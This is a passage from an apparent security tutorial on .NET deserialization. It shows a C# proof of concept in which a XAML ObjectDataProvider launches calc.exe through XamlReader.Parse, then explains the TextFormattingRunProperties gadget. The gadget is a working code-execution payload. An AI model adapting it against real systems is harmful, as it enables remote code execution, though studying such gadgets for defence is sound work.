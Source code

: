 ```csharp
	xmlns:x=""http://schemas.microsoft.com/winfx/2006/xaml""
	xmlns:s=""clr-namespace:System;assembly=mscorlib""
	xmlns:d=""clr-namespace:System.Diagnostics;assembly=System"">

<ObjectDataProvider x:Key=""calc""
                    ObjectType=""{x:Type d:Process}""
                    MethodName=""Start"">
    <ObjectDataProvider.MethodParameters>
        <s:String>calc.exe</s:String>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

</ResourceDictionary>";

			try
			{
				XamlReader.Parse(xaml);
			}
			catch (Exception e)
			{
				Console.WriteLine(e.Message);
			}

			Console.ReadKey();
		}
	}
}
```



## XAML and .NET deserialization

You may ask, what XAML has to do with .NET deserialization? The answer is `TextFormattingRunProperties` gadget. It is .NET deserialisation gadget found by Oleksandr Mirosh ([@olekmirosh](https://twitter.com/olekmirosh)) and Alvaro Munoz ([@pwntester](https://twitter.com/pwntester)).

The gadget is called the same as it's entry point class `TextFormattingRunProperties` from the namespace `Microsoft.VisualStudio.Text.Formatting` inside the `Microsoft.VisualStudio.Text.UI.Wpf.dll` library. Here is the code for this class:

```csharp
namespace Microsoft.VisualStudio.Text.Formatting
{
  [Serializable]
  public sealed class TextFormattingRunProperties: 
    TextRunProperties,
    ISerializable,
    IObjectReference
  {
    ...
    // Deserialization constructor, called on deserialize
    internal TextFormattingRunProperties(SerializationInfo info, StreamingContext context)
    {
      this._foregroundBrush = (Brush) this.GetObjectFromSerializationInfo(nameof (ForegroundBrush), info);
      ...
    }
  }
}
```
